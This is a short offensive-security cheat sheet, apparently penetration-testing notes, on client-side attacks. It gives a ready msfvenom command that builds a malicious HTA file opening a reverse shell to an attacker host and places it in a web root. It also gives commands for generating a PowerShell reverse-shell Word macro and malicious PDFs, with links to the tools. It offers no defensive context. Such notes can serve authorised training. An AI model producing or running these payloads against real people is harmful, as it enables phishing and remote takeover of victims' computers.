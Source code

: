 # Client-Side Attacks
## HTA Attack in Action

-> Get web browser name, operating system, device type  
https://explore.whatismybrowser.com/useragents/parse/#parse-useragent

-> Creating a malicious .hta with msfvenom
```
sudo msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f hta-psh -o /var/www/html/evil.hta
```

## Microsoft Word Macro Attack
-> Generate a malicious macro for reverse shell in powershell using base64 for .doc
```
python evil_macro.py -l <ip> -p <port> -o macro.txt
```
https://github.com/rodolfomarianocy/Evil-Macro/


## Malicious PDF
-> Malicious PDF Generator
```
python3 malicious-pdf.py burp-collaborator-url
```
https://github.com/jonaslejon/malicious-pdf

-> evilpdf  
https://github.com/superzerosec/evilpdf
